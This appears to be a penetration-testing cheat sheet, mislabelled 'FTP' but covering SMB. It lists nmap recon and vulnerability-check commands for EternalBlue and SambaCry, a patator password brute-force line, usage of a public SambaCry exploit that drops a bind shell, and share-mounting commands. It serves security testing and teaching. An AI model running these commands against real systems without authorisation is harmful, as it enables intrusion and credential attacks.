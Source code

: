 # FTP - Methodology

### RECON

###### Basic recon
The Nmap *smb-os-discovery.nse* script attempts to determine the operating system,
computer name, domain, workgroup, and current time over the SMB protocol.
```bash
nmap --script smb-os-discovery.nse -p 445 <IP>
nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 <IP>
```

###### List accessible shares
List the shares available on the server from Linux using smbclient
```bash
smbclient -L <HOST>
smbclient -L <HOST> -U <USER>
```
Nmap can be used to list shares using the *smb-enum-shares.nse* script.
The script relies on the srvsvc.NetShareEnumAll MSRPC function and retrieve
more information using srvsvc.NetShareGetInfo.
If access to those functions is denied, a list of common share names are checked.
```bash
nmap --script smb-enum-shares.nse -p 445 <HOST>
nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 <HOST>
```

###### Scan for EternalBlue & SambaCry
The Nmap *smb-vuln-ms17-010.nse* and *smb-vuln-cve-2017-7494* scripts attempt
to detect if a SMBv1 server is vulnerable to the remote code execution
vulnerability MS17-010, a.k.a. EternalBlue (vulnerability exploited by WannaCry
and Petya ransomware) or CVE-2017-7494 aka SambaCry.

```bash
# EternalBlue
nmap --script smb-vuln-ms17-010.nse -p 445 <IP>

# SambaCry
nmap --script smb-vuln-cve-2017-7494 -p 445 <IP>
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 <IP>
```

If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.  
The following versions are vulnerable:
```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

### EXPLOITATION

###### Bruteforce

```bash
patator smb_login host=<IP> user=FILE0 password=FILE1 0=<wordlist_user> 1=<wordlist_password> -x ignore:mesg='NT_STATUS_LOGON_FAILURE'
```

###### EternalBlue

###### SambaCry
The following exploit may be used to achieve RCE through the SambaCry
vulnerability:
```bash
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <TARGET> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```

### POST EXPLOITATION

###### Connect from Linux
The *smbclient* utility tool can be used to connect to a share from Linux:
```bash
smbclient \\\\<HOST>\\<SHARE> -U <USER>
```
The share may also be mounted using the *mount* utility tool:
```bash
mount -t cifs -o username=<USER> //<HOST>//<SHARE> /mnt/<FOLDER>
mount -t cifs -o username=<USER>,password=<PASSWORD> //<HOST>//<SHARE> /mnt/<FOLDER>
```
